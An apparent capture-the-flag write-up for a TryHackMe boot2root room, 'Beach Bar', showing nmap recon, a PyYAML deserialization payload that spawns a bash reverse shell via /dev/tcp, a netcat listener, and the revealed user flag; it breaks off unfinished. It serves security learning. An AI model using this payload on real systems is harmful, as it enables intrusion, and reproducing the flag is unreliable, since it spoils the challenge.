



# Hacker Holidays — Beach_Bar

## Hint

Find the user flag
Find the root flag

## Statement

Welcome back to the Byte Lotus — this time the sand is warm, the deck lights are coming up, and the beach bar's jukebox takes requests from anyone with a phone. You spend the evening as a guest at the rail who simply notices things: a DJ who never logs out, a song queue that accepts a little more than song titles, a service down the boardwalk quietly announcing "something".

The beachside guest-experience build shipped on a deadline, and the night-shift developer wired the jukebox straight into the floor with the trimmings still attached.

## Challenge Info
- **Name:** Beach Bar
- **Origin:** Tryhackme 
- **Category:** Boot2Root
- **Date:** 08-04-2026

## Tools Used
-`nmap`, `nc`, ``

## Findings

### Step 1 — Analizing the target with nmap. 

- Using the following command to check the target: 

    `nmap -sV 10.145.90.100`

- After implementing the command getting the result: 

    

- Server: Gunicorn / Language : Python 

### Step 2 — Analizing the Hints .

- The Web App say at the botton that export the current playlist, tweak it and load it back via import. After looking for YAM vulns I founded that :

    - PyYAML < 5.1: yaml.load() defaults to the unsafe Loader, so almost anything works.

    - PyYAML ≥ 5.1: yaml.load() requires an explicit Loader argument. If the dev passed Loader=yaml.Loader (full/unsafe) or Loader=yaml.UnsafeLoader, you're still good. If they used yaml.safe_load() or Loader=yaml.SafeLoader, direct object injection via !!python/object/apply

### Step 3 — Getting a RCE modifying the playlist.yml

- So we have to modify the content of the playlist to get a RCE in the WebApp with the following code:

    `!!python/object/apply:os.system
  args: ["bash -c 'bash -i >& /dev/tcp/10.145.90.100/1234 0>&1'"]`

- Steps to get the RCE: 

    1- Setup the listener with netcat: `nc -lvnp 1234 `

    2- Edit and import the playlist.yml with the payload inside.

    3- Click in Load Playlist

- Result: 

    

- Locating the first flag of the CTF with the `find` command: 

    `find / -iname "user.txt" 2>/dev/null`

- Reading the result with the `cat` command: 

    `cat /home/bartender/user.txt 2>/dev/null`

    

    ### First flag (`THM{y4ml_pl4yl1st_pwns_th3_b34ch}`)

### Step 4 — Getting the second flag.

- Getting a better shell with: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

stty raw -echo

### Step 4 — Checking the stream of the pytho file. 

